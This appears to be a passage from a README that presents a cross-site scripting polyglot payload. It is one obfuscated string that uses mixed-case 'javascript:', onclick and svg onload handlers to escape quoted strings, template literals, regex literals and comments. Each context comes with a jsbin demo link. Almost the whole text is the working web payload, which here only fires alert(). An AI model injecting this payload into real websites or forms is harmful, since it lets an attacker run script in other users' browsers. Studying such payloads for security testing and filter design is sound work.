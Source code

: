 _Demo: _[_https://jsbin.com/wuvumuh_](https://jsbin.com/wuvumuh)

####

#### Script contexts covered:

* **Double-quoted strings:**

```
var str = "jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e";
```

_Demo: _[_https://jsbin.com/coteco_](https://jsbin.com/coteco)

* **Single-quoted strings:**

```
var str = 'jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e';
```

_Demo: _[_https://jsbin.com/bupera_](https://jsbin.com/bupera)

* **Template strings/literals (ES6):**

```
String.raw`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`;
```

_Demo: _[_https://jsbin.com/rewapay_](https://jsbin.com/rewapay)

* **Regular expression literals:**

```
var re = /jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e/;
```

_Demo: _[_https://jsbin.com/zepiti_](https://jsbin.com/zepiti)

* **Single-line and multi-line comments:**

```
<script>

//jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</script>
```

_Demo: _[_https://jsbin.com/fatorag_](https://jsbin.com/fatorag)

```
<script>
/*

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

*/
</script>
```
